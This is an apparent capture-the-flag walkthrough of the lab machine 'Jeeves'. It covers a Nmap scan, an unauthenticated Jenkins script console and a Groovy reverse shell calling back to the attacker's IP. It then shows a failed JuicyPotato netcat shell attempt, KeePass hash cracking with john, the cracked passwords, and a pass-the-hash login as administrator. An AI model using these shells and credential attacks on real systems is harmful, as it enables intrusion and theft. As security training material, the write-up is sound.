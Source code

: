 # Jeeves

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Starting off with an Nmap scan, I found that ports 80,135,445 and 50000 were open.

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>



### Port 50000 Jetty 9.4.z-SNAPSHOT

Visiting the webpage, I was greeted by a Error 404 page.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Next, I searched for subdomains using dirbuster with `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` wordlist. I found the `/askjeeves` subdirectory.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Heading to [http://10.10.10.63:50000/askjeeves/](http://10.10.10.63:50000/askjeeves/), it was a Jenkins management console. Going to `Manage Jenkins` --> Script console, I was able to upload the following groovy reverse shell.

```bash
String host="10.10.14.6";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I obtained a user shell

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Using the command `whoami /priv`, I was able to view that the `SeImpersonatePrivilege` is enabled which could allow for JuicyPotato attack.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Next, I transferred nc.exe over using SMB.

```bash
copy \\10.10.14.6\share\nc32.exe .
```

Afterwards, I ran the following command to obtain a root reverse shell

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

However, the JuicyPotato attack does not seem to work.

#### Futher Enumeration for Privilege Escalation

I found `CEH.kdbx` at `C:\Users\kohsuke\Documents`

After copying the file to the attacker machine, I used `keepass2john CEH.kdbx > keepass_hash` to extract a crackable hash from the Keepass Password Database.

Running `john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, I obtained the password as `moonshine1`

Using the password to view the password database, I found the following entries.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the following passwords

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```

The first password entry looks like a hash so I tried to using Pass-the-Hash method.

```bash
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.10.10.63 cmd.exe
```

I managed to login as the `administrator`.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Heading to `c:\users\administrator\desktop` for the root flag, I instead found `hm.txt`

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This could indicate that the flag is present as an Alternate Data Stream. Using `dir /r`, I was able to view the streams present in the directory.&#x20;

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Viewing the flag using `more < hm.txt:root.txt`, I obtained the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
